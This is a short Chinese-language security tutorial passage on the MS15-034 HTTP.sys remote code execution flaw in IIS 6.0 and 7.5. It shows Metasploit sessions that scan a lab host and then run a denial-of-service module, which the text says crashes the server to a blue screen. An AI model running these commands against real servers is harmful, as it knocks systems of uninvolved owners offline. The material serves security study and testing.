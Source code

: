 ![image.png](18.中间件安全\1689921155906-d62885ee-570c-44ce-873d-2d06ebe249de.png)

返回的内容是：`HTTP Error 416. The requested range is not satisfiable.`
则存在 HTTP.SYS远程代码执行漏洞
漏洞影响版本：IIS6.0，IIS7.5
也可以使用msfconsole进行检测（下面是存在漏洞的情况）
```bash
msf6 > use auxiliary/scanner/http/ms15_034_http_sys_memory_dump
msf6 auxiliary(scanner/http/ms15_034_http_sys_memory_dump) > set rhost 192.168.173.130
msf6 auxiliary(scanner/http/ms15_034_http_sys_memory_dump) > run
[+] Target may be vulnerable...
[+] Stand by...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
使用dos模块进行攻击，可以把服务器攻击到蓝屏崩溃
```bash
msf6 > use auxiliary/dos/http/ms15_034_ulonglongadd
msf6 auxiliary(dos/http/ms15_034_ulonglongadd) > set rhost 192.168.173.130
msf6 auxiliary(dos/http/ms15_034_ulonglongadd) > run
[*] DOS request sent
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
